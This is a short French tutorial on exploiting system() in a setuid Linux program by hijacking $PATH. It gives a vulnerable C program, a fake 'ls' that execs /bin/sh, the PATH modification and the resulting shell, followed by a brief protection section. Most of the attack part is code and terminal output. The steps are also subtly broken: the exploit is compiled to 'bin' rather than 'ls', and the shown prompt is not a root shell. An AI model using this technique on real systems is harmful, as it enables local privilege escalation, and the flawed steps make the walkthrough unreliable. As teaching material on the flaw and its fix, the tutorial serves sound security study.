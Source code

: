 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    aas@ubuntu:~$ cat vuln.c
    
    void main()
    {
      system("ls -l");
    }

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    aas@ubuntu:~$ ./vuln
    
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    aas@ubuntu:~$ cat exploit.c 
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    aas@ubuntu:~$ gcc exploit.c -o bin
    ```

### Modification de $PATH
    `aas@ubuntu:~$ PATH=.:$PATH`


### Execution
    aas@ubuntu:~$ ./vuln 
    $
    
## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

